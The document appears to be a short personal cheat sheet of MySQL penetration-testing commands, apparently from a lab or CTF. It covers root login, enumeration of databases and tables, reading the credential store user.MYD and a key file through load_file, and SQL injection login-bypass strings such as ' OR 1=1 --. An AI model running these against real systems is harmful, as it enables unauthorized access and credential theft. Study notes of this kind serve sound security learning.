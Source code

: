 ```
mysql -u root
```

```
show databases;
use [DATABASE];
show tables;
select * from [TABLE];
```

```
mysql -u root -p password
```

```
find / -name mysql 2>/dev/null
```

```
strings /var/lib/mysql/mysql/user.MYD
```

```
select load_file('/var/lib/mysql-files/key.txt');
```

![[Pasted image 20230906083443.png]]

```
' 1 or 1=1 --'
```

```
' 1 or 1=1 #'
```

```
SELECT * FROM users WHERE username = 'input' LIMIT 1;
```

```
SELECT * FROM users WHERE username = '' OR 1=1; --' LIMIT 1;
```

